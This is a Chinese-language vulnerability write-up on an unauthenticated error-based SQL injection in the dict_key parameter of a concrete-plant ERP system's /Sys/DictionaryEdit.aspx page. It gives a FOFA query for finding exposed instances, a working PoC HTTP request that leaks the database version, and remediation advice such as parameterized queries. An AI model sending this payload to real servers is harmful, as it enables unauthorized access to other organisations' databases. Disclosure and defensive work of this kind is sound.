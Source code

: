 
# 商混 ERP 系统 SQL 注入漏洞复现

### 0x01 产品简介

   杭州荷花软件有限公司开发的商混[ERP 系统](https://so.csdn.net/so/search?q=ERP%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)。这套系统主要是处理建筑公司或者各项工程的搅拌站管理，内部含有销售模块、生产管理模块、实验室模块、人员管理等

### 0x02 漏洞概述

 商混 ERP 系统/Sys/DictionaryEdit.aspx 处 dict\_key 参数存在 SQL 报错注入漏洞，未授权的攻击者可通过该漏洞获取数据库权限。

### 0x03 复现环境

FOFA：app="商混 ERP 系统"

![](assets/1701071135-dc6c72309414aeb794648ad0160824b0.png)

### 0x04 漏洞复现

PoC

```cobol
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(255),@@version)-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

查询数据库版本

![](assets/1701071135-3a55123f124ea6af42dbe9934208ba12.png)

### 0x05 修复建议

使用预编译语句，所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。当前几乎所有的数据库系统都提供了参数化 SQL 语句执行接口，使用此接口可以非常有效的防止 SQL 注入攻击。

对进入数据库的特殊字符（'"@&\*;等）进行转义处理，或编码转换。

确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为 int 型。

过滤危险字符，例如：采用正则表达式匹配 union、sleep、and、select、load\_file 等关键字，如果匹配到则终止运行。
